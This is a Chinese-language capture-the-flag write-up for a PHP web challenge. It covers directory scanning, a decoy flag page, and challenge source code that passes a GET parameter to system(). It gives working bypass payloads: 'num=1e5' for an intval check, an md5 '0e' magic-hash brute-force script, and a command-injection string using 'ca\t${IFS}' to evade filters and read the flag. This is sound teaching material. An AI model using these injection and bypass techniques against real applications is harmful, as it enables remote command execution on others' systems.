 ![](<./img/Pasted image 20221121210931.png>)

---
首页长这样

![](<./img/Pasted image 20221121210920.png>)

很怪，标题编码出了点问题，burp里面又能正确显示

![](<./img/Pasted image 20221121211528.png>)

有报错，但没看懂.jpg

用`dirsearch`扫扫看

![](<./img/Pasted image 20221121214141.png>)
```php
/robots.txt
```
![](<./img/Pasted image 20221121212704.png>)

```php
/fAke_f1agggg.php
```
![](<./img/Pasted image 20221121212912.png>)

是假的呜呜呜～

但是翻响应头翻到了点东西

![](<./img/Pasted image 20221121212901.png>)

```php
/fl4g.php
```
![](<./img/Pasted image 20221121213632.png>)

hmmm，为啥又是烦人的编码问题啊啊啊

搜了下，最后害得先进的浏览器收拾摊子

![](<./img/Pasted image 20221121213808.png>)

---
```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

---
`level 1`的弱类型比较利用半天没过去，结果发现自己本地跑的`php`版本太高，已经修复了。

大致就是利用`$num+1`时字符串隐式转换的规则和`intval`不同来绕过
```php
/?num=1e5
```

---
`level 2`是md5弱类型比较绕过，`0e`打头的字符串弱类型比较时等价于`0`，网上有大佬写了代码枚举自身`0e`打头，`md5`值也为`0e`打头的字符串

https://blog.csdn.net/SopRomeo/article/details/106237931
```python
def run():
    i = 0
    while True:
        text = '0e{}'.format(i)
        m = md5(text)
        print(text,m)
        if m[0:2] == '0e' :
            if m[2:].isdigit():
                find=[]
                print('find it:',text,":",m)
                find = find.append(text)
        i +=1
    return find

t = run()
print(t)
```

```php
/?num=1e5&md5=0e215962017
```

---
`get flag`就氵起来了
```php
/?num=1e5&md5=0e215962017&get_flag=ls
```
![](<./img/Pasted image 20221121224622.png>)
```php
/?num=1e5&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
![](<./img/Pasted image 20221121224740.png>)

#Web #PHP #字符 #encoding #目录扫描 #HTTP #Header #代码审计 #function #bypass #md5 #Misc #shell #RCE 